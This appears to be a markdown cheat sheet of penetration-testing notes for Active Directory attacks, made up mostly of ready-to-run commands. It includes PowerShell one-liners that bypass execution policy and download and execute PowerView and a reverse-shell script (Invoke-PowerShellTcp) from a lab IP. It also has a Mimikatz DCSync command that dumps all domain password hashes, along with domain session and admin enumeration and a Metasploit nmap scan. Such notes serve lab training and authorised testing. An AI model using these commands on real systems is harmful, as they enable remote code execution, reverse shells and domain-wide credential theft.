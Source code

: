 # AD Enumeration
## Powershell Notes
Execution Policy Unrestricted
```
set-executionpolicy unrestricted
```
## Powerview

### Download and execute in memory
```
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.152/powerview.ps1');Get-NetSession -ComputerName dc01 | Format-Table"

powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.152:40000/Invoke-PowerShellTcp.ps1')"
```
### See who is logged in to a domain controller
```
C:\tools\active_directory> Import-Module .\PowerView.ps1
Get-NetSession -ComputerName dc01 | Format-Table
```
### Enumerate Local Admin
```
Invoke-EnumerateLocalAdmin | Format-Table
```

# Mimikatz

## Dump all passwords
```
privilege::debug
lsadump::dcsync /domain:corp.com /all /csv
```

# Powershell Unrestricted Executin Policy bypass
```
set-executionpolicy unrestricted
```

# Metasploit 
Meterpreter cheat sheet:
https://www.blueliv.com/downloads/Meterpreter_cheat_sheet_v0.1.pdf

## Nmap Scanning
```
db_nmap 10.11.1.8 -A -Pn
```
## Payload Types
![image](https://gist.github.com/ssstonebraker/f25e2f1f6458da6dc074a1e7af79b773/raw/images---Thu_Apr_16_2020_1587053138991.png)
